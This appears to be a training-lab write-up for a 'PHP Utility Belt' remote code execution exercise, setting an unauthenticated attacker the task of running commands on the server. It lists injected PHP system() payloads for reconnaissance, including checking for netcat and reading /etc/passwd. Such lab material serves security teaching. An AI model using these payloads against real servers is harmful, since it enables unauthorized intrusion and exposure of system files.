





#### 5. PHP Utility Belt

- The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.
- In the exercise below, the attacker is unauthenticated to the web application and needs to find a remote code injection attack to run arbitrary commands on the server.
- A version of PHP Utility Belt is vulnerable to a remote code execution attack.
- Objective: Your task is to find and exploit this vulnerability.

----

```sh
system("id");
system("ls -lah");
system("ip addr");
system("which nc");
system("cat /etc/passwd");
```










